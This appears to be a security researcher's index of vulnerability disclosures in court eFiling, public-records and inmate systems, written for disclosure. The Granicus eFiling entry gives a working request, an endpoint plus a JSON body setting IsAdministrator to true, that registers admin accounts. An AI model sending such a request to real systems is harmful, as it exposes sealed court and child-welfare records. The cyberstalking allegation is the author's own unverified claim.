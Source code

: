 # Disclosures

## Timeline

### [Maricopa County Superior Court eFiling](https://govtech.cc/README-2024-05-17-maricopa.md)

**2024-05-17**

Insufficient permission check vulnerabilities allowed unauthorized users to access restricted documents through the Maricopa Superior Court eFiling system's API endpoint. These issues were due to the ability to manipulate user IDs in API requests, potentially exposing sensitive information from recent court filings.

### [Catalis EZ-Filing v4](https://govtech.cc/README-2024-05-04-catalis-ez-filing-v4.md)

**2024-05-04**

An insufficient permission check vulnerability in [Catalis](https://catalisgov.com/)'s EZ-Filing v4 eFiling platform allowed authenticated attackers to extract personal data, such as names, addresses, emails, and phone numbers, from user accounts by manipulating POST requests. This security flaw exposes users to potential identity theft and fraud.

EZ-Filing v4 is used by [Georgia](https://ez-filing.net/georgia) and [South Carolina](https://ez-filing.net/southcarolina).

### [Catalis EZ-Filing v3](https://govtech.cc/README-2024-05-04-catalis-ez-filing-v3.md)

**2024-05-04**

An insufficient permission check vulnerability in [Catalis](https://catalisgov.com/)'s EZ-Filing v3 eFiling platform allowed authenticated users to access sealed documents, such as mental health reports in guardianship cases, exposing highly sensitive and confidential information. This security flaw compromises the privacy and safety of vulnerable individuals involved in legal proceedings.

EZ-Filing v3 is used by [Maine](https://maineprobate.net/efiling).

### [Granicus GovQA](https://govtech.cc/README-2024-03-07-granicus-govqa.md)

**2024-03-06**

Insufficient permission check vulnerabilities in [Granicus](https://granicus.com/)'s GovQA allowed unauthorized access to view, edit, and change ownership of open records requests, including restricted-access confidential records. By changing ownership of a request, an attacker could effectively deny a legitimate user's access to that request. The vulnerabilities affected various deployments, including numerous Departments of Children and Family Services or their equivalents, which handle highly sensitive records of domestic violence and sexual abuse allegations against children.

### [Granicus eFiling](#granicus-efiling)

**2024-03-02**

Vulnerabilities in [Granicus](https://granicus.com/)'s eFiling platform allowed attackers to register accounts in any organization of their choosing, including the organization that granted administrator privileges. Administrators have carte blanche access to all filings in all cases. Additionally, an organization owner could force any user into their own organization, which allowed the organization owner to effectively revoke privileges of administrators or other organization owners.

Granicus's eFiling platform is used statewide in [Florida](https://www.myflcourtaccess.com/default.aspx) and [Arizona](https://efile.azcourts.gov/).

Administrator accounts could be registered by sending a POST to `/api/Security/RegisterUser` with the following JSON.

```JSON
{
  "User":{
    "OrganizationId":"0","IsAdministrator":true,"UserTypeCode":"10",
    "IdType":-1,"IdTypeSpecified":false,"IdState":"-1","IdNumber":"",
    "LogonName":"<username>","LogonPassword":"<password>",
    "FirstName":"Example","MiddleName":"","LastName":"User","Suffix":"",
    "PrimaryEmailAddress":"fake@example.com","AlternateEmailAddress1":"","AlternateEmailAddress2":"",
    "Address1":"123 Fake St","Address2":"","City":"Beverly Hills","State":"CA","ZipCode":"90210",
    "Country":"US","CountryCode":"US","PhoneNumber":"","PhoneExtension":""
  },"ForceToPendingApproval":false,"ForceCreateUser":false
}
```

_Note: Shortly after receiving my report, Granicus evidently leaked my information to the Arizona Supreme Court. For the next two months, Granicus and the Arizona Supreme Court cyberstalked me; my LinkedIn profile was viewed repeatedly, sometimes multiple times per day, by several employees from each company._

### [Disorder in the Court](https://govtech.cc/README-2023-11-30-disorder-in-the-court.md)

**2023-11-30**

Insufficient permission check vulnerabilities in public court record platforms from multiple vendors allowed unauthorized public access to sealed, confidential, unredacted, and/or otherwise restricted case documents. Affected documents include witness lists and testimony, mental health evaluations, child custody agreements, detailed allegations of abuse, corporate trade secrets, jury forms, and much more.

- [All Vendors (Combined)](https://govtech.cc/README-2023-11-30-disorder-in-the-court.md)
- [Catalis -- CMS360](https://github.com/qwell/disorder-in-the-court/blob/main/README-Catalis.md)
- [Henschen & Associates -- CaseLook](https://github.com/qwell/disorder-in-the-court/blob/main/README-Henschen%26Associates.md)
- [Tyler Technologies -- Court Case Management Plus](https://github.com/qwell/disorder-in-the-court/blob/main/README-TylerTechnologies.md)
- [Florida](https://github.com/qwell/disorder-in-the-court/blob/main/README-Florida.md)
  - Brevard County
  - Hillsborough County
  - Lee County
  - Monroe County
  - Sarasota County

### [BluHorse Inmate Management](https://ꩰ.com/@north/111365131136729011)

**2023-11-06**

- Leaked personal data of inmates and officers.

### [Bluesky Social Network](https://github.com/qwell/bsky-exploits)

**2023-09-13**

- Abitrary text descriptions and thumbnails in link cards.
- Disguised links in post text.

## Contact

[Jason Parker](https://linktr.ee/northantara)

- Email: [north@ꩰ.com](mailto:north@ꩰ.com)
- Press: [press@jeltz.org](mailto:press@jeltz.org)
- Mastodon: [@north@ꩰ.com](https://ꩰ.com/@north)

## Sponsorship

- If you enjoy my work, consider becoming a sponsor on [Patreon](https://patreon.com/northantara) or [GitHub](https://github.com/sponsors/qwell/), and/or consider donating to the [Electronic Frontier Foundation](https://eff.org/donate) or [St. Jude](https://www.stjude.org/donate). Many hours of labor are put into researching and disclosing vulnerabilities.
